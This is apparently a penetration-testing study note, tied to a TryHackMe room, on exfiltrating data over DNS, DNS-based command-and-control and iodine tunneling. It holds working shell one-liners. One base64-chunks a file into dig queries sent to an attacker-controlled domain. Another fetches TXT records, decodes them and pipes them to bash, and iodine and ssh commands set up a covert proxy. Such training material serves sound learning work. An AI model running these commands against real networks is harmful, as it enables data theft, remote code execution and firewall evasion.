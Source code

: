 # Data Exfiltration Over DNS

## Introduction and Configuration
For more detail about DNS go to the [[DNS-Defined]] article, otherwise we also require control of a domain name with DNS records including NS, A or TXT. [[Setup-DNS]] or you do the [THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt) where they have one setup to be configurable. The IP address you want to exfiltrate data to, in this article stated as variable `$exfil-to-IP`

To be successful:
1. Add an A record that points to the IP you want to exfiltrate data to:
	- `Type A, Subdomain Name: $subdomainnameNS, Value: $exfil-to-IP`
2. Add NS record that routes DNS queries to the A record above
	- `Type NS, Subdomain Name: $subdomainname, Value: $subdomainnameNS.$control_domain_name.com`

Like:
**DNS Record** | **Type** | **Value**
--- | --- | ---
`$subdomainnameNS`.domainname.com  | A   |  `$exfil-to-IP`
`$subdomainname`.domainname.com | NS | `$subdomainnameNS`.domainname.com

To resolve:
```bash
dig +short `$subdomainname.$domainname.com 
```

## Exfiltration Over DNS

The DNS protocol is allowed in almost all firewalls in any organization network and is not regularly monitored. Although maximum length for FQDN (including.separators is 255 characters) and subdomain name (label) length must not exceed 63 characters (not including suffix .com, .net..) equating to a limited number of characters to transfer data over the **domain name**. Typical used when firewall blocks and filters all traffic, testing to TCP/UDP packets to check whether DNS is blocked by firewall or filters.

1. Register Domain Name
2. NS Record points to a server that Attacker controlled from within a network
3. Data is sent as  `D474.domain.com` the D474 is the data exfiltrated within the name
	1. Prior to sending, marshall D474 together
	2. Encode the file
	3. Split data to limitation of size contraints: total url size 255; subdomain label 63 
	4. At the recieving end: `sudo tcpdump -i eth0 udp port 53 -v tcpdump`
	5. At sending end `cat D474.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.$subdomain.$domain.com/' | awk '{print "dig +short " $1}' | bash` ; optionally on one line add ` tr -d "\n"` between `sed` and `fold` command.
4. DNS request is sent through local DNS server to internet
5. Exfiltrate-To location recieves DNS request
6. Extract of `D474` from the domain name.
7. `echo "$exfiltrated-data$.$subdomain.$domain_name.com." | cut -d"." -f1-8 | tr -d "." | base64 -d`

## C2 Communications over DNS 

For a listing of modern C2 see the [[C2-Matrix]] and [[Introduction-To-Comand-And-Control-Frameworks]] if you require some basic understanding regard fundementals of what a C2 is. Some C2 use DNS for communication and also use TXT DNS record to run a droppers to download files.

```bash
# $command-in-txt-records.domain.com
# C2 agent would request the TXT content to then format and decode it 
dig +short -t TXT $command-in-txt-records.$domain.com | tr -d "\"" | base64 -d | bash
```

## DNS Tunneling (TCPoverDNS)

DNS tunneling is a technique of encapsulating other protocols over the DNS protocol, this commuication chanell must be established one both ends of the tunnel. [iodine](https://github.com/yarrick/iodine) is a DNS tunnel written in C that can let you tunel IPv4 data through a DNS server.

 To establish a DNS tunnel:
 1. Update DNS records, creating a new NS pointing to `$exfiltrate-to-location`
 2. Run `iodined` server from `$exfiltrate-to-location`
 3. Run `iodine` (no `d` in the iodine client) client from `$exfiltrate-from-location`
 4. SSH to `fill` on create network interface to create a proxy over DNS with `-D` flag to create dynamic port forwarding

WE can then use local IP, port as proxy in Firefox or Proxychains
```bash
# Create a new network interface dns0
# -f: foreground, -c: skip checking client IP for each DNS request, -P set password
# $IP/CIDR is set to network IP for the dns0; this is the addressing of dns0!
# I.e server will be 10.1.1.1 if $IP/$CIDR = 10.1.1.1/24 ; client will be 10.1.1.2
# Then provide a nameserver
sudo iodined -f -c -P <password> $IP/$CIDR $ns.$domain.com  
# Client to server:
sudo iodine -P $password $ns.$domain.com 
# Create dynamic port forward
ssh $user@10.1.1.2 -4 -f -N -D 1080
proxychains curl http://$ip/
# OR
curl --socks5 127.0.0.1:1080 http://$ip/
```


## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)
